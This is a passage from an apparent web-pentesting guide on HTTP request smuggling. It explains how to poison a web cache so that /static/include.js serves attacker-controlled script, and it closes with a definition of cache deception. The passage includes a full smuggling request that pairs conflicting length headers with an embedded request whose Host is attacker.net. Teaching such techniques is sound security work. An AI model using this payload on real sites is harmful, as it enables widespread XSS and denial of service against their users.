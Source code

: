 Previously, we observed how server responses could be altered to return a 404 error (refer to [Basic Examples](https://book.hacktricks.xyz/pentesting-web/http-request-smuggling#basic-examples)). Similarly, it’s feasible to trick the server into delivering `/index.html` content in response to a request for `/static/include.js`. Consequently, the `/static/include.js` content gets replaced in the cache with that of `/index.html`, rendering `/static/include.js` inaccessible to users, potentially leading to a Denial of Service (DoS).

This technique becomes particularly potent if an **Open Redirect vulnerability** is discovered or if there's an **on-site redirect to an open redirect**. Such vulnerabilities can be exploited to replace the cached content of `/static/include.js` with a script under the attacker's control, essentially enabling a widespread Cross-Site Scripting (XSS) attack against all clients requesting the updated `/static/include.js`.

Below is an illustration of exploiting **cache poisoning combined with an on-site redirect to open redirect**. The objective is to alter the cache content of `/static/include.js` to serve JavaScript code controlled by the attacker:


```
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

Note the embedded request targeting `/post/next?postId=3`. This request will be redirected to `/post?postId=4`, utilizing the **Host header value** to determine the domain. By altering the **Host header**, the attacker can redirect the request to their domain (**on-site redirect to open redirect**).

After successful **socket poisoning**, a **GET request** for `/static/include.js` should be initiated. This request will be contaminated by the prior **on-site redirect to open redirect** request and fetch the content of the script controlled by the attacker.

Subsequently, any request for `/static/include.js` will serve the cached content of the attacker's script, effectively launching a broad XSS attack.


#### Using HTTP request smuggling to perform web cache deception

> **What is the difference between web cache poisoning and web cache deception?**
> 
> - In **web cache poisoning**, the attacker causes the application to store some malicious content in the cache, and this content is served from the cache to other application users.
>     
> - In **web cache deception**, the attacker causes the application to store some sensitive content belonging to another user in the cache, and the attacker then retrieves this content from the cache.
>     
